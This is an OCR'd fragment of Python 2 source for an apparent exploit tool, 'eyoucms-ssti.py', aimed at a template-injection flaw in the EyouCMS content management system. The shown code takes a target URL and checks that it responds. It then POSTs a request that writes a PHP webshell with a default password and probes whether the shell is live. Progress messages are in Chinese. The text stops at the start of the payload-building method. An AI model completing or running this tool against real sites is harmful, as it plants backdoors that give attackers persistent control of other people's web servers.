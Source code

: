 ```
                print 'eyoucms-ssti.py -u url'

            if option in ("-u", "--url"):

                if(self.request(value).status_code != 404):

                    self.url = value

            if option in ("-p", "--password"):

                    if(value != None):

                        self.password = value

                    else:

                        self.password = "ceshi"

            if option in ("-o", "--output"):

                    if(value != None):

                        self.output = value.replace(".php","")

                    else:

                        self.output = "ceshi"

    def run(self):

        url = self.url.rstrip('/')+self.requesturi

        print "[+] 正在请求目标地址:%s"%(url)

        if(self.request(url).status_code == 200):

            print "
 目标地址%s存活"%url

        else:

            print "[-] 目标地址%s探测失败"%url

            return

        print "[+] 正在向目标地址%s写入%s.php"%(url,self.output)

        if(self.request(url,"post").status_code == 200):

            print "
 疑似成功写入Webshell"

        shell = self.url.rstrip('/')+"/%s.php"%self.output

        print "[+] 正在探测Webshell(%s)是否存活"%(shell)

        if(self.request(shell).status_code == 200):

            print "
 Webshell(%s)已存活\n
 密码：%s"%(shell,self.password)

    def createpyload(self):
```